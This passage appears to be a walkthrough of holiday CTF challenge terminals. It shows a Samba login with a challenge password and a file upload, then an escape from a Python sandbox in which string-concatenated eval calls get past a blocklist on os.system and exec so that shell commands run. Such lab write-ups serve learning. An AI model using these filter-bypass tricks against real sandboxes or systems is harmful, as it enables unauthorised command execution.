3. When asked for a password, entered `directreindeerflatterystable`

4. Got access to Samba share. Then run `put report.txt report.txt`. Seemed to work:
```bash
smb: \> put report.txt report.txt
putting file report.txt as \report.txt (250.5 kb/s) (average 250.5 kb/s)
smb: \> Terminated
elf@e167a3f21960:~$

                               .;;;;;;;;;;;;;;;'
                             ,NWOkkkkkkkkkkkkkkNN;
                           ..KM; Stall Mucking ,MN..
                         OMNXNMd.             .oMWXXM0.
                        ;MO   l0NNNNNNNNNNNNNNN0o   xMc
                        :MO                         xMl             '.
                        :MO   dOOOOOOOOOOOOOOOOOd.  xMl             :l:.
 .cc::::::::;;;;;;;;;;;,oMO  .0NNNNNNNNNNNNNNNNN0.  xMd,,,,,,,,,,,,,clll:.
 'kkkkxxxxxddddddoooooooxMO   ..'''''''''''.        xMkcccccccllllllllllooc.
 'kkkkxxxxxddddddoooooooxMO  .MMMMMMMMMMMMMM,       xMkcccccccllllllllllooool
 'kkkkxxxxxddddddoooooooxMO   '::::::::::::,        xMkcccccccllllllllllool,
 .ooooollllllccccccccc::dMO                         xMx;;;;;::::::::lllll'
                        :MO  .ONNNNNNNNXk           xMl             :lc'
                        :MO   dOOOOOOOOOo           xMl             ;.
                        :MO   'cccccccccccccc:'     xMl
                        :MO  .WMMMMMMMMMMMMMMMW.    xMl
                        :MO    ...............      xMl
                        .NWxddddddddddddddddddddddddNW'
                          ;ccccccccccccccccccccccccc;




You have found the credentials I just had forgot,
And in doing so you've saved me trouble untold.
Going forward we'll leave behind policies old,
Building separate accounts for each elf in the lot.

-Wunorse Openslae
```


# Python Escape from LA terminal

```bash
>>> os = eval('__im'+'port__("os")')
>>> os.system("killall python")
Use of the command os.system is prohibited for this question.
>>> exec
Use of the command exec is prohibited for this question.
>>> eval
<built-in function eval>
>>> eval('os.sy'+'stem("killall python")')
sh: 1: killall: not found
32512
>>> eval('os.sy'+'stem("ps | aux pyt")')
sh: 1: aux: not found
32512
>>> eval('os.sy'+'stem("ps aux | pyt")')
sh: 1: pyt: not found
32512
>>> eval('os.sy'+'stem("ps aux | grep pyt")')
elf          1  0.0  0.0  33840 11020 pts/0    Ss+  16:29   0:00 python3 /bin/shell
elf         15  0.0  0.0   4500   708 pts/0    S+   16:43   0:00 sh -c ps aux | grep pyt
elf         17  0.0  0.0  11280   960 pts/0    S+   16:43   0:00 grep pyt
```